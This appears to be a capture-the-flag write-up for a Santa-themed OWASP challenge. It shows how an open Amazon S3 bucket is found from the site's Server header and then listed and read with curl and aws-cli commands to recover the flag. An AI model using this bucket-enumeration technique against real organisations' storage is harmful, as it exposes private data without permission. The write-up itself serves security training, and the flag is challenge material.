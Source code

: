 # Day 6

> Santa is always keeping up with the times. He asked his elves to build him a web page that will help with the ordering and distributing of presents. Being crunch time, the elves took some shortcuts to get the page up and running. Would you be willing to check if the elves made any mistakes that could leak possibly sensitive information?

URL: x.owasp.si

From `Server` HTTP header we understand that website is powered by Amazon S3.

```
$ curl -i http://x.owasp.si/
HTTP/1.1 200 OK
x-amz-id-2: bQ9Ecf0oyEDOWEi+hyCMJocc7rTaNs3chhf7GmXVWilm8qg1HFXXDlda9VUA8aGBZN63i0k65eo=
x-amz-request-id: 4C4EB452105CFDE8
Date: Thu, 24 Dec 2020 13:36:13 GMT
Last-Modified: Tue, 01 Dec 2020 19:31:08 GMT
ETag: "13bcd5112926c0bd0696180ed95820d2"
Content-Type: text/html
Content-Length: 246
Server: AmazonS3
```

Very frequently, the S3 bucket name is the same as domain name.

We can use aws-cli command to list the contents of this S3 bucket and get the flag:
```
$ aws s3 ls s3://x.owasp.si/
2020-12-01 20:55:03         22 6470e394cbf6dab6a91682cc8585059b.txt
2020-12-01 20:31:08        246 index.html
2020-12-01 20:31:09     123824 santa.png

$ aws s3 cp s3://x.owasp.si/6470e394cbf6dab6a91682cc8585059b.txt -
xmas{naugh7y_and_n1c3}
```

If you don't have aws-cli, you can do the same by visiting the link: <http://x.owasp.si.s3.amazonaws.com/>
